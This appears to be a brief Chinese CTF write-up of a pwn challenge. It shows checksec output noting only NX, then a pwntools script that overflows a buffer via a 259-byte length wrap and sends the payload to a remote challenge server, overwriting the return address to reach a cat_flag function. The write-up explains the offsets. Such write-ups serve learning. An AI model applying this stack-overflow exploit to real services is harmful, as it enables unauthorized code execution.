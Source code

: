 用checksec分析发现

发现只启用了 NX(No eXecute，数据不可执行)保护机制，因此可以拿来 做栈溢出攻击。（NX 保护开启意味着栈中数据没有执行权限，以前的经 常用的 call esp 或者 jmp esp 的方法就不能使用，但是可以利用 rop 这种 方法绕过）

反编译然后发现需要用

脚本编写如下

```python
from pwn import *
p = remote("61.147.171.105","64370")
cat_flag_addr = 0x0804868B
p.recvuntil('choice:')
p.sendline('1')
p.recvuntil('name:')
p.sendline('pwn')
p.recvuntil('passwd:')
payload = b'a' * 0x14 + b'A'*4 + p32(cat_flag_addr) + (259 - 20 -4 -4) * b'a'
p.sendline(payload)
p.interactive()

```

这里的payload解释如下：

先利用255+4溢出得到4

然后用b'a' * 0x14填充dest,用b'A' * 4 覆盖caller(**这里挺好奇为什么不可以用p32(0)的，后面交流后发现ebp要指向一个貌似合理的地址，p32(0)和p32(1)不行，但是p32(cat_flag_addr)是可以的**)，然后用cat_flag_addr的地址覆盖返回地址，即可获得flag
